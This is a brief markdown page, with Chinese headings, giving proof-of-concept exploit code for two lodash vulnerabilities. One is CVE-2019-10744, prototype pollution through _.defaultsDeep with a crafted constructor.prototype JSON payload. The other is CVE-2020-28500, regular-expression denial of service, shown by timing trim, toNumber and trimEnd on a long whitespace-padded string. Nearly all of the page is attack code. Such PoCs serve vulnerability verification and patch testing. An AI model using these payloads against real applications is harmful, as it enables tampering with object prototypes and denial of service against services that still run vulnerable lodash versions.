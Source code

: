 

# lodash原型污染漏洞(CVE-2019-10744)

version<4.17.12
# POC

```
_.VERSION


const payload = '{"constructor": {"prototype": {"whoami": "Vulnerable"}}}'

_.defaultsDeep({}, JSON.parse(payload))
```

# 


# 正则表达式拒绝服务 (ReDoS) 的攻击(CVE-2020-28500)

version<4.17.21

# POC

```
_.VERSION

var lo = require('lodash');

function build_blank (n) {
var ret = "1"
for (var i = 0; i < n; i++) {
ret += " "
}

return ret + "1";
}

var s = build_blank(50000)
var time0 = Date.now();
lo.trim(s)
var time_cost0 = Date.now() - time0;
console.log("time_cost0: " + time_cost0)

var time1 = Date.now();
lo.toNumber(s)
var time_cost1 = Date.now() - time1;
console.log("time_cost1: " + time_cost1)

var time2 = Date.now();
lo.trimEnd(s)
var time_cost2 = Date.now() - time2;
console.log("time_cost2: " + time_cost2)
```

# 
